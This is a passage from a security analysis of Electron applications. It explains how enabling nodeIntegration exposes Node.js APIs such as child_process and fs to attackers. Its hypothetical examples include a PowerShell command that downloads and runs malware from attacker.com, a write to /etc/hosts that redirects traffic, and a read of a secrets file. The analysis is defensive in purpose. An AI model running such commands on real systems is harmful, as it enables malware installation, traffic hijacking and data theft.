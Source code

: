 As stated in the original attack tree, enabling `nodeIntegration: true` in the main process of an Electron application grants the renderer process (and, by extension, any attacker who compromises the main process) unrestricted access to Node.js APIs. This is a critical security flaw because it bypasses the intended security boundary between the renderer (which handles potentially untrusted web content) and the main process (which has privileged access to the operating system).

### 2.2 Attack Vector Analysis

The primary attack vector is the direct execution of Node.js code within the compromised main process.  This is not limited to a specific set of APIs; *all* Node.js modules and built-in functions become available to the attacker.  Here's a breakdown of key areas of concern:

*   **Arbitrary Code Execution (ACE):**
    *   **`child_process`:** The most dangerous module.  The attacker can use `child_process.exec()`, `child_process.spawn()`, `child_process.execFile()`, or `child_process.fork()` to execute arbitrary system commands.  This allows for:
        *   Installing malware.
        *   Creating backdoors.
        *   Stealing data.
        *   Modifying system configurations.
        *   Launching further attacks on the network.
        *   Achieving persistence (e.g., adding startup entries).
        *   Disabling security software.
    *   **Example (Hypothetical):**
        ```javascript
        // Attacker-controlled code injected into the main process
        const { exec } = require('child_process');
        exec('powershell -c "Invoke-WebRequest -Uri http://attacker.com/malware.exe -OutFile C:\\Users\\Public\\malware.exe"', (error, stdout, stderr) => {
          if (error) {
            console.error(`exec error: ${error}`);
            return;
          }
          exec('C:\\Users\\Public\\malware.exe'); // Execute the downloaded malware
        });
        ```

*   **File System Manipulation (`fs`):**
    *   The attacker can read, write, modify, and delete any file on the system that the Electron application's process has access to. This includes:
        *   Application data.
        *   User data.
        *   System files (depending on permissions).
        *   Configuration files.
    *   **Example (Hypothetical):**
        ```javascript
        const fs = require('fs');
        fs.writeFileSync('/etc/hosts', '127.0.0.1  legitimate-website.com\n', { flag: 'a' }); // Redirect traffic
        let sensitiveData = fs.readFileSync(process.env.APPDATA + '\\MySecretApp\\secrets.txt', 'utf8'); // Steal data
        ```

